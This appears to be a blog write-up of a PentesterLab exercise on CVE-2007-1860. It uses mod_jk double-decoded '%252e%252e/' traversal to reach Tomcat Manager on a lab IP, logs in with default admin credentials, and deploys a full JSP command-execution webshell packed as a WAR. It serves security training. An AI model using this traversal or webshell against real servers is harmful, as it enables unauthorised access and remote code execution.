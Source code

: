 ```yaml
---
layout: post
title: "Pentesterlab--cve-2007-1860"
date: 2016-04-05 13:04:47 -0400
comments: true
categories: [pentesterlab, mod_jk double-decoding, cve-2007-1860]
---
```


*By means of these seven considerations I can forecast victory or defeat.* ----- The Art of War

This course details the exploitation of a vulnerability in mod_jk and how by using this issue it is possible to access the administration interface of a Tomcat server (Tomcat's manager). Then using this access, we will see how an attacker can use default credentials to log in as administrator and use this access to gain code execution on the server. ---Pentesterlab

Difficluty: 2/5
<!--more-->

###Forces:

* Nmap
* NC 
* Firebug
* webshell

###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ----- Nmap
* Check http headers. ----- NC
* Exploit and upload webshell. ---- Firebug


###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_010.png   [title manually exploit [alt text]] %}

By checking the application HTTP headers with nc, I can also get Apache service version.

```
GET / HTTP/1.1
Host: 192.168.79.168
``` 

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_011.png  [title manually exploit [alt text]] %}

####Attack

First of all, we need to figure out the architecture of Tomcat and Apache. Read [here](https://pentesterlab.com/exercises/cve-2007-1860/course)

If we try to visit a non-exist page, we will receive 404 error like that:

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_001.png  [title manually exploit [alt text]] %}

Based on the result, we know the http request is processed by Apache.

If we try to visit page like 192.168.79.168/examples/jsp/test404, we will get the 404 error like:

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_002.png  [title manually exploit [alt text]] %}

Then we know that the http request is processed by Tomcat through Apache.


Tomcat Manager is available at the following URI: /manager/html and is, most of the time, protected by a password. The CVE-2007-1860 vulnerability is described [advisory](http://mail-archives.apache.org/mod_mbox/tomcat-dev/200706.mbox/%3C4667755F.6070700@apache.org%3E)

From pentesterlab,

*If you provide this %252e to a vulnerable modjk, it will perform a first decoding and send the value %2e to Tomcat. Tomcat will then perform a second decoding to get the value .. If you use %252e%252e, you will then be able to send .. to Tomcat. If you try to send .. directly to Apache, it will not forward the request to Tomcat unless the path resolve to a path configured to be forwarded to Tomcat (using `modjk`).*

Now we know how to access the /manager/html, (Sometimes you may need to repeat several times %252e%252e/)

`http://192.168.79.168/examples/jsp/%252e%252e/%252e%252e/manager/html`

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_003.png  [title manually exploit [alt text]] %}

The credentials are one of the default ones. In this exerciese, the admin didn't change the credentials. The user name is admin and password is empty. Once we get it, we are able to get acces to the Tomcat Manager.

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_004.png  [title manually exploit [alt text]] %}


Now we need to create a webshell and upload it to the Tomcat.


####Deploy a webshell

webshell (from pentesterlab, you may generate it using msfvenom)


```jsp index.jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

now we have to  pack the webshell

```
$ mkdir webshell
$ cp index.jsp webshell

$ cd webshell
$ jar -cvf ../webshell.war *

```

webshell `webshell.war` is ready to fire.

####Upload webshell

We can use the form to upload war file:
{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_005.png  [title manually exploit [alt text]] %}

However, it will give you a 404 page since the deployment url does not use the double -encoding trick to gain access to get the manager. So we have to use firebug to give the form right location.

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_006.png  [title manually exploit [alt text]] %}

change the location to :

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_007.png  [title manually exploit [alt text]] %}

After successful uploading webshell, it will show in the Tomcat manager:

{% img  /images/blog/pentesterlab/cve_2007_1860/Selection_008.png  [title manually exploit [alt text]] %}

now enjoy the webshell by accessing

`http://192.168.79.168/examples/%252e%252e/webshell/`

 {% img  /images/blog/pentesterlab/cve_2007_1860/Selection_009.png  [title manually exploit [alt text]] %}


DONE

{% img  /images/blog/pentesterlab/shellshock/game_over.jpg [title manually exploit [alt text]] %}
